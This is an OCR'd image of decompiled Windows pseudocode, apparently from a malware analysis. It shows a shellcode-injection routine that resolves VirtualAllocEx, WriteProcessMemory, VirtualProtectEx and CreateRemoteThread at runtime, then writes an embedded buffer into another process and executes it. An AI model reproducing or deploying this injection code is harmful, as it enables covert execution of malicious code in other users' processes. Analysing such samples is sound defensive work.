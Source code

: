```c
LABEL_18:
  CloseHandle(hObject);
  if ( !v5 )
    return 1;
  v10 = 3072LL;
  VirtualAllocEx = (LPVOID (__stdcall *)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress(hModule, aVirtualallocex);
  if ( !VirtualAllocEx )
    return 1;
  v6 = ((__int64 (__fastcall *)(__int64, _QWORD, __int64, __int64, int))VirtualAllocEx)(v5, 0LL, v10, 12288LL, 4);
  if ( !v6 )
    return 1;
  WriteProcessMemory = (BOOL (__stdcall *)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T *))GetProcAddress(
                                                                                        hModule,
                                                                                        aWriteprocessme);
  if ( !WriteProcessMemory )
    return 1;
  if ( !((unsigned int (__fastcall *)(__int64, __int64, void *, __int64, _QWORD))WriteProcessMemory)(
          v5,
          v6,
          &unk_14001C000,
          v10,
          0LL) )
    return 1;
  v9 = 0;
  VirtualProtectEx = (BOOL (__stdcall *)(HANDLE, LPVOID, SIZE_T, DWORD, PDWORD))GetProcAddress(hModule, aVirtualprotect);
  if ( !VirtualProtectEx )
    return 0;
  if ( !((unsigned int (__fastcall *)(__int64, __int64, __int64, __int64, int *))VirtualProtectEx)(
          v5,
          v6,
          v10,
          64LL,
          &v9) )
    return 1;
  v19 = 0LL;
  CreateRemoteThread = (HANDLE (__stdcall *)(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD))GetProcAddress(hModule, aCreateremoteth);
  if ( !CreateRemoteThread )
    return 1;
  v19 = ((__int64 (__fastcall *)(__int64, _QWORD, _QWORD, __int64, _QWORD, _DWORD, _QWORD))CreateRemoteThread)(
          v5,
          0LL,
          0LL,
          v6,
          0LL,
          0,
          0LL);
  return v19 == 0;
}
```
